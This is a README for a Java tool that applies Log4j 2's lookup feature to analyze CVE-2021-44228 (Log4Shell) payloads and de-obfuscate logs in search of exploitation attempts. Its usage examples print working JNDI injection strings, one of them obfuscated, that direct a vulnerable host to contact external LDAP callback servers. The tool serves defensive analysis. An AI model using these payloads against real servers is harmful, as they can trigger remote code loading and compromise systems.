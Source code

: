 # JndiLookup
Some tool to help analyzing Apache Log4j 2 CVE-2021-44228

This tool uses the "lookup" feature from log4j-2 to test against the JNDI vulnerability.
The objective is to easily run the lookup feature (to normalize logs for example or to do a real testing on some payload - please be cautious).

To build : "make" (for convenience, the JndiLookup.jar file is included in this git).

Once built, you can run the tool with "java -jar JndiLookup.jar" (the log4j directory with log4j binaries must be in the same path as the JndiLookup.jar)

With no argument, the JndiLookup tool read lines from stdin and "convert" them using the log4j lookup feature - this should be useful to normalize logs and search for exploitation attempts

For example : cat access.log | java -jar JndiLookup.jar


If you pass a string to the command line, the tool will convert this string and exists (please escape all the '$' characters).

For example : java -jar JndiLookup.jar java -jar JndiLookup.jar "\${jndi:\${lower:l}\${lower:d}a\${lower:p}://world443.log4j.bin\${upper:a}ryedge.io:80/callback}"

By default, the JNDI lookup is disabled (and replaced by a lookup function that will just add "jndi:" but it's possible to enable the real JNDI lookup by passing the "-X" parameter to JndiLookup ("-X" to be passed as the first parameter) ; PLEASE BE CAUTIOUS with this because it could lead to your system being compromised.

For example : java -jar JndiLookup.jar -X "\${jndi:ldap://w8pcb14reujq65vic39pz9amv.canarytokens.com/a}"



The following lookup are enabled in the log4j binariers used (2.15.0 for standard usage, 2.14.1 for JNDI-enabled usage) :
- log4j
- sys
- env
- main
- marker
- java
- base64
- lower
- upper
- date 
- ctx

Other lookup might be availabled depending on your environment :
- docker
- kubernetes
- spring
- jvmrunargs

[ Please see https://github.com/apache/logging-log4j2/blob/c30a1398a6697fb832c650870c44284d0052103e/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/Interpolator.java for details on lookup plugin activation]


Please be aware this tool uses the real code from log4j lookup feature and it could be vulnerable because of other (non-JNDI) security issues.
